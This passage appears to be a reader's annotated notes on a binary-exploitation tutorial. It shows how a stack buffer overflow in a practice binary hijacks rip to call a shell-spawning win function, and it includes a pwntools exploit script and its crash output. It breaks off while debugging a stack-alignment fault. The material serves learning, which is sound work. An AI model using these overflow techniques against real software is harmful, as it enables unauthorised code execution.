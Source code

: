 Ah-ha! The program fails on the `ret` instruction as it tries to pop `0x4141414141414141` into `rip` because that address is not in memory. This means we have full control over `rip` as we leave `greet`!

> If we did not see `A`s in this location then we could adjust our padding (the `B`s) accordingly to make sure that our offset is correct and we fully control the value popped into `rip` by `ret`.

### Hijacking Execution

Now, what do we want to do with this power? Our end goal may vary based on our target and situation, but for the sake of this program we have a `win` function which spawns a shell. Let's change our `A`s to instead be a little-endian byte value of `win`'s address. Because this binary is no-PIE we know the address of `win`—if PIE is turned on then we must use a leak to find an address in the binary to break PIE.
[SUMMARY: if no PIE, hijack directly (eg. buffer overflow). If PIE, first leak an address to calculate the base address, then hijack]

> It's important to understand that we hijack execution with the _existing program state_. We control `rip` but currently do not control the value of other registers—aside from the popped RBP value we corrupt prior to the pushed RIP—or memory other than the stack buffer values we input. Because `win` takes no arguments we do not need to control any other registers (we will learn how to do this when we cover return oriented programming, a.k.a. ROP, and shellcoding) and thus can jump to the entry of the function without worrying about `rdi`, `rsi`, etc. being set to specific values. 
> 	- what does "return oriented programming" mean?

Because we need to send raw bytes (an address) which is not represented in ASCII, let's draft a Python script leveraging `pwntools`'s `ELF` utility to look up the function address:

```python
from pwn import *

e = ELF("./stack")
p = process("./stack")
p.recvuntil(b"??\n")
# need to send a negets
p.sendline(b'B' * 0x28 + p64(e.symbols.win))
# drop into interactive shell to use shell we popped!
p.interactive()
```

Let's throw this exploit and see what happens!

```
[+] Starting local process './stack': pid 2420133
[*] Switching to interactive mode
Hello, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\xb6\x11@
[*] Got EOF while reading in interactive
$ ls
[*] Process './stack' stopped with exit code -11 (SIGSEGV) (pid 2420133)
```

We get a segmentation fault. Why does this happen? In a situation like this—when we think things should be working but they are not—we must debug. Let's switch to `gdb.debug` to throw our exploit with `pwntools` and debug the crash. What we see is that there is a crash on an `xmm` register in glibc's `do_system` call (OKAY! This is same crash location for my bypass-50 rn and yep, my stack ptr is not 16-byte aligned):
